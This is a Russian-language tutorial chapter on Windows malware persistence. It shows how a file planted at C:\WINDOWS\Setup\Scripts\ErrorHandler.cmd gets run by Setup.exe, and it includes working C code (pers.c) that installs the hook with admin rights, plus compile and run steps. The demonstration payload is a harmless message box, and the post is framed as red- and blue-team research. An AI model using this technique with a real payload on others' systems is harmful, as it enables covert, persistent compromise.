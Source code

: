 \newpage
\subsection{88. разработка вредоносного ПО: закрепление (persistence) - часть 22. Windows Setup. Простой пример на C++.}

﷽

![pers](./images/104/2023-07-17_00-13.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через сценарий Windows Setup.     

### сценарий установки

`C:\WINDOWS\system32\oobe\Setup.exe` - это исполняемый файл операционной системы Windows. Директория `oobe` означает *"Out Of Box Experience"* - процесс настройки Windows при первом запуске, включающий создание учетной записи пользователя, настройку параметров, выбор настроек по умолчанию и т. д.     

![pers](./images/104/2023-07-16_22-58.png){width="80%"}    

Оказывается, если разместить полезную нагрузку в `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` будет загружать её при возникновении ошибки.     

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это `meow-meow` messagebox "вредоносное" приложение (`hack.c`):  

```cpp
/*
hack.c
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем файл `ErrorHandler.cmd` для закрепления:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

Как можно видеть, логика довольно простая.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-16_23-47.png){width="80%"}    

Затем перемещаем наш `ErrorHandler.cmd` в `C:\Windows\Setup\Scripts\`:     

![pers](./images/104/2023-07-17_00-10.png){width="80%"}    

Ок, следующий шаг - нужно запустить `Setup.exe` с ошибкой. Самый простой способ - выполнить `Setup.exe` без аргументов:     

```powershell
.\Setup.exe
```

![pers](./images/104/2023-07-17_00-13_1.png){width="80%"}    

Если открыть `Process Hacker` и посмотреть свойства `hack.exe`:     

![pers](./images/104/2023-07-17_01-52.png){width="80%"}    

Можно заметить, что его родительский процесс - `cmd.exe (7264)`,       

![pers](./images/104/2023-07-17_01-53.png){width="80%"}    

А его родительский процесс, в свою очередь, - `Setup.exe (4876)`:     

![pers](./images/104/2023-07-17_01-53_1.png){width="80%"}    

Как можно видеть, логика закрепления работает идеально! =^..^=         

### практический пример 2. скрипт закрепления

Для полноты эксперимента я создал файл `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", 
  GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo 
  off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\
  hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", 
    GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Обратите внимание, что эту программу необходимо запускать с правами администратора, поскольку она пытается создать каталог и файл в `C:\WINDOWS`, что требует прав администратора.

![pers](./images/104/2023-07-17_02-12.png){width="80%"}    

### демонстрация 2

Давайте посмотрим, как все работает на практике. Компилируем наш скрипт закрепления:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-17_02-07.png){width="80%"}    

Затем просто запускаем его с административными привилегиями на машине жертвы:     

```powershell
.\pers.exe
```

![pers](./images/104/2023-07-17_02-13.png){width="80%"}    

В моем случае, перед запуском я удалил эту папку:    

![pers](./images/104/2023-07-17_02-10.png){width="80%"}    

Запускаем `Setup.exe` снова:    

![pers](./images/104/2023-07-17_02-15.png){width="80%"}    

![pers](./images/104/2023-07-17_02-15_1.png){width="80%"}    

Идеально! =^..^=    

### заключение

Это обычное имя файла установочного пакета. В данном случае оно является частью процесса установки и инициализации Windows. Файл используется во время установки операционной системы, а также при добавлении или изменении компонентов.     

Как видно, однако, следует отметить, что, хотя это легитимная часть операционной системы Windows, вредоносные программы иногда могут называть себя `Setup.exe`, чтобы избежать обнаружения.      

В папке `c:\WINDOWS\system32\oobe\` также находятся другие файлы:      

![pers](./images/104/2023-07-16_22-59.png){width="80%"}    

Я их не проверял.     

Этот трюк ранее исследовался [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/):

![pers](./images/104/2023-07-17_02-26.png){width="80%"}    

Я просто показываю "грязный" PoC-код на C: `pers.c`.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.   

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     
